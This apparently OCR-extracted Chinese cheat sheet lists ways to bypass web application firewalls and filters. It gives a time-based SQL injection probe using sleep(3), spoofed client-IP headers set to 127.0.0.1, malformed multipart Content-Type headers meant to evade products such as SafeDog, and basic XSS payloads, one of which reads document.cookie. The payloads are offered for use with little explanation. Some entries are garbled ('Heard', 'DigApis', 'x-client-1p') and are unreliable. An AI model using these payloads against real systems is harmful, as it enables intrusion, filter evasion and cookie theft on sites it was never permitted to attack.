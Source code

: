      GET/xxx/?id=1+and+sleep(3) HTTP/1.1
     DigApis /xxx/?id=1+and+sleep(3)HTTP/1.1
    
        

* * *

\*\*

##### Heard IP 绕过

（一般应用拦截，非WAF）

    X-forwarded-for：127.0.0.1 
    
    X-remote-IP：127.0.0.1 
    
    X-originating-IP：127.0.0.1 
    
    x-remote-addr：127.0.0.1
    
    x-client-1p：127.0.0.1
    
        

* * *

**Heard content-type 绕过**

    content-type为空 
    
    content-type改成其他的 
    
    content-type必须指定唯一一个类型，例如 application/ octet- stream（比如安全狗）
    
    content-type改成不规则的text/htm1xxxxxx
    
    Content-Type：multipart/form-data ; boundary=0000 
    
    Content-Type：mUltiPart/ForM-dATa；boundary=0000 
    
    Content-Type：multipart/form-datax；boundary=0000 
    
    Content-Type：multipart/form-data，boundary=0000 
    
    Content-Type：multipart/form-data boundary=0000 
    
    content-Type：multipart/whatever；boundary=0000
    
    content-Type：multipart/； boundary=0000
    
    content-Type: application/octet-stream；
    
        

* * *

##### XSS

基础常用的常规语句

    ?id=alert(document['cookie']) 
    
    ?;eval(unescape(location))//#%0Aalert(0) 
    
    ?id=<script<{alert(1)}/></script> 
    